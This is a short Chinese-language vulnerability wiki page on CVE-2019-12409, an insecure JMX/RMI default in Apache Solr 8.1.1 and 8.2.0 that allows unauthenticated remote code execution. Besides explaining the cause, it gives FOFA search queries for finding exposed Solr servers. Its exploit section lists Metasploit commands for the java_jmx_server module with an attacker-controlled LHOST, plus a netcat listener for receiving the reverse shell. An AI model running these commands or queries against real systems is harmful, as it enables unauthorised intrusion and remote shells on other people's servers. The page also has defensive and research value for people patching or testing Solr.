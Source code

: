 

# CVE-2019-12409 | Apache Solr == 8.1.1 / 8.2.0 存在RMI注入漏洞





## 0x00 漏洞说明



Apache Solr 的 8.1.1 和 8.2.0 版本在 Solr 附带的默认 solr.in.sh 配置文件中包含 ENABLE_REMOTE_JMX_OPTS 配置选项的不安全设置。并且启用 JMX 监听在 RMI_PORT（默认值=18983端口）上公开，**无需任何身份验证**便可访问。并允许攻击者在 Solr 服务器**上传并执行恶意代码**



## 0x01 影响版本



- == Apache Solr  8.1.1

- == Apache Solr  8.2.0



## 0x02 漏洞成因



1. 默认的配置文件solr.in.sh的选项**ENABLE_REMOTE_JMX_OPTS**字段值被设置为”true”，这会启用JMX监听服务并会在**公网**中监听一个**18983**的RMI端口，无需任何认证，也就是说在未授权的情况下，攻击者结合使用JMX RMI就会造成远程代码攻击。

2. 当攻击者在目标18983 RMI监听端口(默认)，利用 **javax.management.loading.MLet**的**getMBeansFromURL** 方法来加载一个远端恶意的 MBean，将会导致RCE。

   



## 0x03 漏洞指纹



fofa:

```
app="apache-solr"
title="Solr Admin"
```





## 0x04 POC & EXP




!FILENAME MSF
```bash
#需要有公网IP
use exploit/multi/misc/java_jmx_server
show options
set RHOSTS <ip>
set RPORT <port>
run

#如果监听主机不在MSF当前主机上，则:
set LHOST <VPS IP>
set LPORT <port>

#在目标VPS
nc -lvvp <port>
```





## 0x05 扩展链接



[CVE-2019-12409：由于错误的默认配置导致的 Apache Solr RCE 漏洞](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2019-12409-RCE%20Vulnerability%20Due%20to%20Bad%20Defalut%20Config-Apache%20Solr)



## 0x06 联系方式



作者 : BitWiki支持团队
